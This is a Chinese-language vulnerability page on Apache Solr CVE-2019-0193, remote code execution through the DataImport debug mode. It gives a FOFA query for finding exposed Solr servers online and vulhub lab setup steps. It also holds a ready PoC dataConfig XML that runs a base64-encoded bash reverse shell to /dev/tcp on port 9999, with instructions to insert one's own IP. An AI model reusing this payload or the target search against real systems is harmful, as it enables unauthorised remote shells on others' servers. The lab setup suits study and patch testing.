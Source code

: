 ```yaml
---
title: Apache Solr Debug-Mode 远程执行漏洞 CVE-2019-0193
---
```


# Apache Solr Debug-Mode 远程执行漏洞 CVE-2019-0193

## 漏洞描述
2019 年 08 月 01 日，Apache Solr 官方发布预警，Apache Solr DataImport 功能 在开启 Debug 模式时，可以接收来自请求的”dataConfig”参数，这个参数的功能与data-config.xml 一样，不过是在开启 Debug 模式时方便通过此参数进行调试，并且 Debug 模式的开启是通过参数传入的。在 dataConfig 参数中可以包含 script 恶意脚本导致远程代码执行。

## 漏洞影响

<a-checkbox checked>Apache Solr</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## 环境搭建
```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-0193
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```
访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

![6b8ee428-c68d-4517-8206-fb6eda9d4e5b](../../../.vuepress/public/img/6b8ee428-c68d-4517-8206-fb6eda9d4e5b.png)

## 登录页面

点击刚刚创建的test进入调试

![9e50ce8c-94b7-461c-95e9-17030e72623f](../../../.vuepress/public/img/9e50ce8c-94b7-461c-95e9-17030e72623f.png)

将下面的POC代码填入 Debug-Mode 中

```xml
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

注意 POC 执行的代码中的base64字符串的位置请置换成自己的ip地址并base64加密填入

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
直接如上写入反弹无反应，不稳定，需要base64加密写才能反弹一个shell
```

点击EXecute执行代码

![7217d375-48e1-460e-bb1e-c1db123daff1](../../../.vuepress/public/img/7217d375-48e1-460e-bb1e-c1db123daff1.png)

![999fb5d8-a762-4957-a9b7-a6e66df216dd](../../../.vuepress/public/img/999fb5d8-a762-4957-a9b7-a6e66df216dd.png)
